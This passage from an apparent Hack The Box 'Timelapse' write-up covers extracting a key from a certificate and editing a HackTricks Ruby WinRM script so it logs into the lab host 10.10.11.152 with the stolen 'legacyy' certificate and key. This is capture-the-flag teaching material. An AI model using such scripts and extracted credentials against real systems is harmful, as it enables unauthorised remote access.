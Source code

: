 Whilst extracting the key, it will request to supply a new PEM pass phrase. (Yes there is a typo in my file names)

![](<../../.gitbook/assets/image (26) (1).png>)

![](<../../.gitbook/assets/image (1) (2).png>)

Attempting to connect over WINRM failed for me when trying to use evil-winrm. I secured a Ruby script from [https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-winrm](https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-winrm) to edit.

Here is part of the Ruby script and the changes added in.

```
require 'winrm-fs'

# Author: Alamot
# To upload a file type: UPLOAD local_path remote_path
# e.g.: PS> UPLOAD myfile.txt C:\temp\myfile.txt


conn = WinRM::Connection.new( 
  endpoint: 'https://10.10.11.152:5986/wsman', #Configure for Timelapse IP:5986/WSMAN
  transport: :ssl,
  user: 'legacyy', #Username
  password: '####', #Password
  :client_cert => '/home/kali/htb/Timelapse/legacyy_dev.cer', #Added in for Certificate Auth
  :client_key => '/home/kali/htb/Timelapse/legacyy_dev.key', #Added in for Certificate Auth
  :no_ssl_peer_verification => true
)
```
